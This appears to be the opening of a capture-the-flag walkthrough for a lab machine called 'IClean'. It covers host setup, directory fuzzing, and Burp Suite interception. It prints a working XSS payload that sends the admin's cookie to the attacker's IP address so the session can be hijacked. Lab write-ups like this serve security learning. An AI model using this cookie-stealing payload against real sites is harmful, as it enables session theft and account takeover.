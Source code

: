 Lets see the website. 
![alt text](/iclean/1.png)

Add to the host file /etc/hosts.
```python
10.10.11.12    capiclean.htb      
```

Fuzz the directories using dirsearch.
![alt text](/iclean/8.png)

Directories were found but the dashboard one with the status 302 may has admin dashboard.

***Steal Admin cookie? - Big Hint***

---

### HTTP 80
![alt text](/iclean/2.png)

While navigating the website, there is a login page that requires authentication, which may not be worth pursuing.

--- 

**XSS steal admin cookie:**

Click on "Get a Quote" button.
![alt text](/iclean/3.png)


Intercepting the request through the burpsuite.
![alt text](/iclean/4.png)


Send the burpsuite request to the repeater. I found an input field "service" where we can add payloads. Try a xss payload that steals cookie of the admin on the service parameter and open a python server so that it hits our server with the cookie.. 
```javascript
"><img src=x onerror=document.location="http://10.10.16.37/?c="+document.cookie; />
```

Click on "Send" button.
![alt text](/iclean/5.png)

When we check the python server, we can see that the page made a request to our server and we got a admin cookie.
![alt text](/iclean/6.png)


Add the stolen cookie to the browser's storage via the inspector, where we can manually add cookies.

![alt text](/iclean/7.png)
